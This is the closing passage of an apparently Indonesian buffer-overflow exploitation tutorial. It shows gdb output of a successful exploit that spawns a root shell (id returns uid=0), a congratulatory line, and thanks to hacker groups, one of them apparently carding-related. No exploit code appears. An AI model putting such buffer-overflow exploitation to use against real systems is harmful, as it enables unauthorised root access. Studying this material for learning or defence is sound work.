 ```
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-3.2# echo WIN.
WIN.
sh-3.2# exit

Program exited normally.
(gdb) quit
root@bt:~#
```
selamat ! anda telah sukses mengexploitasi buffer overflow !

### special thanks : devilzc0de crew and jasakom crew
		 : www.devilzc0de.org / www.devilzc0de.com - www.jasakom.com , indonesianhacker.org, yogyacarderlink.web.id
		 : serverisdown.org, xc0de.or.id, echo.or.id
